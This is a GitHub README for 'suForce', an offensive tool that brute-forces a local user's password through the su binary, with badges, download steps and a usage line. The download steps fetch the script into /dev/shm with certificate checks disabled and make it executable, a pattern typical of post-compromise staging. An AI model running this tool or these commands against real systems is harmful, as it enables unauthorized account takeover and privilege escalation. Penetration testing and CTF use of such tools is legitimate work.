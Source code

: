 # suForce

![GitHub stars](https://img.shields.io/github/stars/d4t4s3c/suForce?logoColor=yellow) ![GitHub forks](https://img.shields.io/github/forks/d4t4s3c/suForce?logoColor=purple) ![GitHub watchers](https://img.shields.io/github/watchers/d4t4s3c/suForce?logoColor=green)</br>
![GitHub commit activity (branch)](https://img.shields.io/github/commit-activity/m/d4t4s3c/suForce) ![GitHub contributors](https://img.shields.io/github/contributors/d4t4s3c/suForce)

Obtain a **user's** system **password**, this tool uses the [su](https://manpages.ubuntu.com/manpages/xenial/man1/su.1.html) binary to perform a **brute force attack** until a successful collision occurs.

![](/img/img.png)

---

## Download

```sh
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce"
chmod +x suForce
```

## Usage

```sh
./suForce -u <USER> -w <WORDLIST>
```

---
